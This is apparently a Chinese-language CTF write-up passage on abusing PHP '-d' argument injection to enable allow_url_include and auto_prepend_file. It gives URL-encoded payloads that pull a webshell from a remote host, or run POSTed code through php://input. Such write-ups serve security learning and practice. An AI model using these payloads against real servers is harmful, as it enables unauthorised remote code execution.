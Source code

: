**可以通过-d参数来指定php.ini的配置项**，经常做题的人应该都知道..这两个配置项

```ini
# 在所有页面加载前，自动包含指定文件
auto_prepend_file=filename
# 在文件加载后包含
auto_append_file=filename
```

这两个配置经常用作给网页添加相同的nav样式，head样式，footer样式啦..，这里待会借用一下

现在我们可以包含文件了，可以利用文件包含漏洞，再-d参数打开一个allow_url_include配置项就可以利用伪协议或者远程文件来打组合拳了

```ini
allow_url_include
```

做法1：远程文件包含

没有公网ip，借用一下隔壁buu靶机，写个马在txt文件里

```
# payload，注意这些配置项的内容要url编码一次，因为这里=，:并不是常见的url传参赋值
url?-d+allow_url_include%3don+-d+auto_prepend_file%3dhttp%3A%2F%2F7488d3b8-33f3-4b88-9c28-2e16f41ed6fb.node5.buuoj.cn%3A81%2F1.txt
```

另外远程文件的木马，$_GET[1]或$_POST[1]会报错，需要加引号。不加引号似乎会联系木马文件的上下文寻找

![remote](/medias/show-cve/5.png)


做法2：伪协议

测试了data:text/plain，php://filter伪协议好像都不行，php://input可以，需要bp发包post数据，hacker不支持直接post，而是键值对

```
# payload
url?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3A%2F%2Finput
# post
<?php phpinfo();?>
```
